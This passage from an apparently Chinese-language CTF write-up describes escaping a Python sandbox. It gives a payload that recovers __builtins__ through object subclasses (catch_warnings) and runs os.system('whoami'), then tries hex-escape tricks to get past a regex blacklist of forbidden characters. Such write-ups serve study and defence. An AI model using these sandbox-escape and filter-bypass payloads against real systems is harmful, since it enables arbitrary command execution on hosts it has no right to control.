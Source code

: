 原理就是通过基础类型访问到`object`类型然后找到跟初始`__builtins__`一样的子类然后恢复。

做成payload尝试一下

```python
if __name__ == '__main__':
    recipe = '''
__builtins__ = [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
__builtins__['__import__']('os').system('whoami')
'''
    calc(recipe)
```

it works!

![8](8.png)

`__builtins__`的问题解决了，但是payload里还有一堆禁用字符。

## day2

### 绕过禁用字符

有禁用字符的存在，上面的payload还是无法使用。一开始想的是不用这些字符寻找其它办法能不能达到上面一样的效果，但是并没有找到。

那能不能用其它字符代替呢？试试用hex来代替。先看看禁用字符的hex值。

![9](9.png)

python里字符串使用\xab来表示字符的。

尝试一下payload

```python
if __name__ == '__main__':
    recipe = '''
b = \x5b]
print b
'''
    if re.search(r'\[|\(_\.', recipe):
        print 'invalid payload'
    calc(recipe)
```

这样好像并不可以，\x5b和[在python里应该是等价的。

但是这种包裹在字符串里然后并且\被\转义的\5b好像能绕过。

```python
if __name__ == '__main__':
    recipe = '''
b = "\\x5b]"
print b
'''
    if re.search(r'\[|\(_\.', recipe):
        print 'invalid payload'
    calc(recipe)
```
